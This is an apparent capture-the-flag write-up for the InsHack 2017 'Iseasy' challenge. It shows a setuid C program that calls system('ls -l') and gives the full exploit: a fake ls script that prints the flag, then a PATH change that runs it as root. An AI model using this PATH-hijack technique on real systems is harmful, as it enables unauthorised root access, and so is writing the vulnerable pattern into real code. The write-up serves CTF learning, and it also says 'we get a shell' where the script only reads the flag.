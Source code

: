 ```yaml
---
title: "Iseasy | InsHack 2017"
categories: ["pwn"]
tags: ["privilege escalation"]
points: 75
solves: 127
---
```


A simple privilege escalation, taking advantage of the `PATH` environment variable.

## Overview
The challenge source code is just this little snippet:
```c
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?


## Solution
Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable. That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

The solution is something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```bash
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```bash
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` we get a shell!
```bash
export PATH=/tmp/a
./vuln
```
